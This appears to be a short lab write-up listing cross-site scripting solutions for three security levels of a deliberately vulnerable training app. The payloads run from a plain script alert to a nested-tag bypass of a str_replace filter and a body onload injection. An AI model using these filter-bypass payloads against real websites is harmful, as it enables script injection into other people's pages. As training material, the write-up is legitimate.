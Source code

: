### Security level: LOW
* Solution: <script> alert(1) </script>

### Security level: MEDIUM:

* Solution: <s<script>cript>alert(1)</script>
* circumvented str_replace( '<script>', '')

### Security level: HIGH:

* Solution: <<meta>body onload=alert(1)>
* similar to stored XSS page
